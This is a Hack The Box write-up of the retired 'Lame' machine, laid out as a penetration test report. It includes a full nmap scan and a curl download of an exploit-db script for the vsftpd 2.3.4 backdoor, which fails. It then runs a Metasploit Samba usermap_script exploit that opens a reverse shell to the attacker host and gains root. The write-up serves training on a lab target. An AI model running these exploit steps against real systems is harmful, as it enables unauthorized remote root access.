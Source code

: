 ![](attachments/Pasted%20image%2020251016184744.png)

# Hack The Box: Lame (Retired Machine)

## Table Of Contents

- [1. Executive Summary](#1-executive-summary)
- [2. Scanning & Enumeration](#2-scanning--enumeration)
	- [2.1 Port Scan](#21-port-scan)
		- [2.1.1 Output](#211-output)
- [3. Vulnerability Analysis](#3-vulnerability-analysis)
	- [3.1 Remote Shell Access with CVE-2011-2523](#31-remote-shell-access-with-cve-2011-2523)
		- [3.1.1 Fetch and Execute Script](#311-fetch-and-execute-script)
		- [3.1.2 Output](#312-output)
	- [3.2 Remote Command Execution with CVE-2007-2447](#32-remote-command-execution-with-cve-2007-2447)
		- [3.2.1 Launch and Configure Exploit](#321-launch-and-configure-exploit)
		- [3.2.2 Execute Exploit](#322-execute-exploit)
		- [3.2.3 Output](#323-output)
## 1. Executive Summary

This report outlines the penetration test conducted on the target host `lame.htb` under the HackTheBox environment. 

The goal was to identify vulnerabilities and provide recommendations for securing the system.

## 2. Scanning & Enumeration

### 2.1 Port Scan

The following Nmap command was executed:

```bash
nmap -Pn -sC -sV -oN lame.nmap -vv lame.htb
```

#### 2.1.1 Output

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-16 15:07 UTC
Nmap scan report for 10.129.33.67
Host is up (0.086s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m36s, deviation: 2h49m46s, median: 33s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-10-16T11:08:51-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Nmap done: 1 IP address (1 host up) scanned in 61.22 seconds
```

## 3. Vulnerability Analysis

### 3.1 Remote Shell Access with CVE-2011-2523

> vsftpd 2.3.4 downloaded between 20110630 and 20110703 contains a backdoor which opens a shell on port 6200/tcp.
> 
> Source: https://www.cvedetails.com/cve/CVE-2011-2523

#### 3.1.1 Fetch and Execute Script

```bash
curl https://www.exploit-db.com/download/49757 -o CVE-2011-2523.py
```

```bash
python3 CVE-2011-2523.py lame.htb
```

#### 3.1.2 Output

```bash
# The command did not execute successfully, indicating potential issues that require further investigation.
```

### 3.2 Remote Command Execution with CVE-2007-2447

> The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.
>
>Source: https://www.cvedetails.com/cve/CVE-2007-2447


#### 3.2.1 Launch and Configure Exploit

```bash
msfconsole

use exploit/multi/samba/usermap_script
set RHOST lame.htb
set LHOST 10.10.14.48
```

#### 3.2.2 Execute Exploit

```bash
exploit
```

#### 3.2.3 Output 

```bash
[*] Started reverse TCP handler on 10.10.14.48:4444 
[*] Command shell session 1 opened (10.10.14.48:4444 -> 10.129.34.7:54082) at 2025-10-16 15:02:33 +0000

whoami
root
```